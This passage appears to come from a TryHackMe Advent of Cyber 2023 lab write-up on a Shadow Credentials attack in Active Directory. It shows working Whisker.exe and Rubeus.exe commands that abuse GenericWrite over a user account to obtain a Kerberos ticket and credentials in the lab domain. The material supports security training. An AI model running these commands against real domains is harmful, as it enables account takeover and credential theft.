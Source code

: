 From the above output, we can see the `hr` user has the `GenericWrite` permission over the `vansprinkles` object. As such, we can compromise this account with that privilege by updating the `msDS-KeyCredentialLink` attribute - this is known as a **Shadow Credentials** attack.

To exploit this vulnerability, we can use `Whisker.exe` which will simulate the creation of a device, therefore updating the `msDS-KeyCredentialLink` attribute:

```powershell
PS > .\Whisker.exe add /target:vansprinkles
```

![Advent of Cyber 2023 Day 11 - Whisker](tryhackme/images/aoc2023d11_whisker.png)

This gives us the ability to impersonate the vulnerable user via `Rubeus.exe`. Overall, we are carrying out a **pass-the-hash** attack. With our valid certificate we have obtained, we can acquire a valid TGT (Ticket Granting Ticket) and impersonate the user.

```powershell
PS > Rubeus.exe asktgt /user:vansprinkles /certificate:<CERTIFICATE> /password:"Aq9Y4X8IbcFXiVVP" /domain:AOC.local /dc:southpole.AOC.local /getcredentials /show
```
